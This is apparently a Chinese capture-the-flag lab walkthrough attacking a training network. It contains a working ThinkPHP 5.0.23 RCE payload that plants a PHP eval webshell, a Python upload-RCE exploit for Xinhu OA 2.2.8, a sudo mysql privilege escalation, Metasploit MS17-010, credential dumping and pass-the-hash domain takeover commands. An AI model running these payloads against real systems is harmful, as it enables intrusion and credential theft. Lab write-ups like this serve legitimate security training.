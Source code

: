 # 攻击流程

## 信息收集

![image-20231212095736357](images/1.png)

发现了thinkphp5.0.23的rce

![image-20231212100006894](images/2.png)

## GetShell

直接用payload打

![image-20231212100351356](images/3.png)

```
http://39.101.165.215/index.php?s=captcha&test=-1

 _method=__construct&filter[]=phpinfo&method=get&server[REQUEST_METHOD]=1
```

写一个马

```
 _method=__construct&filter[]=exec&method=get&server[REQUEST_METHOD]=echo PD9waHAKZXZhbCgkX1BPU1RbMV0pOw==|base64 -d>1.php
```

![image-20231212100508714](images/4.png)

## SUID提权

连上蚁剑，目前用户是www-data，看看有没有什么方式可以提权的

![image-20231212100716140](images/5.png)

看到了mysql是不需要密码就可以root权限执行的

![image-20231212100752408](images/6.png)

```
sudo mysql -e '\! whoami'
sudo mysql -e '\! ls /root'
```

![image-20231212100856643](images/7.png)

看到了第一段的flag :`flag{60b53231-`

![image-20231212100941648](images/8.png)

接着来看内网其他机器

![image-20231212101135810](images/9.png)

看到了内网网段

## 内网信息收集和代理

上传fscan和stowoway

![image-20231212101830962](images/10.png)

fscan扫到了内网中存在另外两台机器172.22.1.21（存在ms17-010），以及172.22.1.18（信呼OA）

在VPS上收到了连接，开一个socks在7777

![image-20231212101736877](images/11.png)

## 攻击内网

### 信呼OA

配置proxifier后，直接访问，先打web

![image-20231212102435869](images/12.png)

信呼OA2.2.8，弱口令admin/admin123可以登录后台

![image-20231212102608565](images/13.png)

这个版本在后台可以上传文件RCE

```python
import requests

session = requests.session()
url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=11'
data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''
}
r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})

filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
id = r.json()['id']
url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'
r = session.get(url3)
data2 = {
    "1": "system('whoami');"
}
print(url_pre + filepath)
r = session.post(url_pre + filepath, data=data2)
print(r.text)

```

![image-20231212103115770](images/14.png)

蚁剑连接一下这个，找到了flag2:	`2ce3-4813-87d4-`

![image-20231212103300911](images/15.png)

发现这是一台域内机器，域控服务器是172.22.1.2

![image-20231212103203316](images/16.png)

### MS17-010

MS17-010还是用msf打最稳定

```
proxychains4 msfconsole

也可以直接set proxies socks5:127.0.0.1:7777
```

因为目标机器不出网，payload用`bind_tcp`

![image-20231212105517238](images/17.png)

抓取用户hash

```
load kiwi
creds_all
```

![image-20231212105700552](images/18.png)

## 域内信息收集

上传`SharpHound.exe`来搜集一下域内信息

```
upload "/root/SharpHound.exe" "C:/SharpHound.exe"

shell
chcp 65001

cd C:/
SharpHound.exe -c all

download "C:/20231212112608_BloodHound.zip" "/root/"
```

然后放在bloodhound里面分析

这里不知道为什么直接导入zip会出错，但是解压后不导入第一个computer就可以

![image-20231212134800467](images/19.png)

这里可能有点问题，但是我看别人在bloodhound中可以直接看到`XIAORANG-WIN7$`这台机器有DCSync权限

直接抓到了Administrator的hash

![image-20231212114056424](images/20.png)

用wmiexec登录

```
python3 wmiexec.py xiaorang.lab/administrator@172.22.1.2 -hashes :10cf89a850fb1cdbe6bb432b859164c8
```

![image-20231212114409242](images/21.png)

拿下域控

![image-20231212114459456](images/22.png)

而且这里有krbtgt的hash，可以用来做一个黄金票据

拿到了flag3

![image-20231212114800834](images/23.png)



```
flag{60b53231-2ce3-4813-87d4-e8f88d0d43d6}
```



参考链接

https://github.com/H3rmesk1t/Security-Learning/blob/main/Penetration/%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C%20%26%20Initial/%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C%20%26%20Initial.md

https://www.cnblogs.com/thebeastofwar/p/17754145.html